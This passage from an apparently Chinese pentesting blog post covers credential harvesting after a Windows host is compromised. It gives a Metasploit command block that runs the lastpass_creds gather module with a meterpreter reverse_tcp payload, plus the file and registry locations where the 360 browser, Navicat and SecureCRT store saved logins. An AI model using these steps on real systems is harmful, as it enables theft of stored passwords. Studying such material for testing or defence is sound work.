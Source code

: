 ```
账号密码文件：C:\Users\xx\AppData\Roaming\360se6\User Data\Default\apps\LoginAssis\assis2.db
```




**MSF模块**



```
use post/multi/gather/lastpass_creds      
set payload windows/meterpreter/reverse_tcp      
set lhost 0.0.0.0      
set session 1      
exploit
```




相关文章：[浏览器密码存储原理和渗透中的利用](https://www.secpulse.com/archives/3351.html "浏览器密码存储原理和渗透中的利用")



### 其他软件账号密码



**Navicat：**



<table cellpadding="0" cellspacing="0"><tbody><tr><td style="vertical-align:top;"><p>MySQL</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>MariaDB</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>MongoDB</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>Microsoft &nbsp;SQL</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>Oracle</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>PostgreSQL</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr><tr><td style="vertical-align:top;"><p>SQLite</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\PremiumSoft\NavicatSQLite\Servers\&lt;your &nbsp;connection name&gt;</p></td></tr></tbody></table>



![](https://img-blog.csdnimg.cn/20200804174946182.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**SecureCRT：**



<table cellpadding="0" cellspacing="0"><tbody><tr><td style="vertical-align:top;"><p>xp/win2003</p></td><td style="vertical-align:top;"><p>C:\Documents &nbsp;&nbsp;and Settings\USERNAME\Application Data\VanDyke\Config\Sessions</p><p></p></td></tr><tr><td style="vertical-align:top;"><p>win7/win2008以上</p></td><td style="vertical-align:top;"><p>C:\Users\USERNAME\AppData\Roaming\VanDyke\Config\Sessions</p></td></tr></tbody></table>
